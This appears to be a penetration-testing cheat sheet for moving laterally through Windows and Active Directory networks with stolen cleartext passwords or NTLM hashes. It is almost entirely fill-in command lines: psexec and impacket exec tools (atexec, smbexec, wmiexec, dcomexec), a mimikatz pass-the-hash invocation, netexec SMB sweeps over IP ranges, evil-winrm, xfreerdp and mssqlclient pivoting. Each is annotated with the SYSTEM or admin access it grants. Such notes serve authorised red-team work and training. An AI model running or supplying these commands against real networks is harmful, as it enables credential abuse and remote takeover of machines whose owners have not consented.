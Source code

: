 # Cleartext Password

## Tools: psexec.exe , impacket tools , mimikatz , crackmapexec/netexec , evil-winrm , xfreerdp , mssqlclient

# Interactive shell

#### 1) psexec.exe/impacket-psexec

 - psexec.exe -AcceptEULA \\IP

 - impacket-psexec DOMAIN/USER:PASSWORD@IP

## This grants NT Authority/System shell (System/Admin access)

#### 2) Mimikatz

 - mimikatz "privilege::debug sekurlsa::pth /user:USER /domain:DOMAIN /ntlm:HASH"

# Pseudo-shell (File write and read)

#### 1) crackmapexec/netexec

 - netexec smb IP_RANGE -u USER -p PASSWORD -d DOMAIN

 - netexec smb IP_RANGE -u USER -p PASSWORD --local-auth

#### 2) Impacket tools

 - atexec.py DOMAIN/USER:PASSWORD@IP "COMMAND"

 - smbexec.py DOMAIN/USER:PASSWORD@IP

## Note: These 2 techniques grant shell as the NT Authority/System user

 - wmiexec.py DOMAIN/USER:PASSWORD@IP

 - dcomexec.py DOMAIN/USER:PASSWORD@IP

### These techniques grant System/Admin access

# WinRM

 - evil-winrm -i IP -u USER -p PASSWORD

# RDP

 - xfreerdp /u:USER /d:DOMAIN /p:PASSWORD /v:IP

# SMB

 - smbclient.py DOMAIN/USER:PASSWORD@IP (Search files)

# MSSQL

 - mssqlclient.py -windows-auth DOMAIN/USER:PASSWORD@IP (MSSQL Pivot)
